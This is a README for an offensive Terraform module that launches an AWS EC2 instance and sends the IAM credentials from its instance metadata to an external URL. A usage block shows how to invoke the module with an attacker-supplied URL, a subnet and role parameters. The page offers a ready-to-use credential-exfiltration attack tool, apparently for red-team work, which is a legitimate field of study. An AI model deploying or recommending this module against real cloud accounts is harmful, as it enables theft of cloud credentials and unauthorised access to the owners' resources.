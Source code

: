 # AWS EC2 Instance Credential Exfiltration Module

![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-purple)
![OffensiveTerraform](https://img.shields.io/badge/hack-green)


Offensive Terraform module which creates EC2 instance and exfiltrate credential from Instance metadata to external URL.

![Attack Diagram](https://github.com/offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration/blob/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source = "offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration"

    subnet_id = "subnet-0a4a1cc04"
    url = "http://0.0.0.0/
    iam_role= "ec2-instance-role"
    iam_instance_profile = "ec2-instance-profile"
}
```
## Author
Module managed by https://github.com/offensive-terraform/


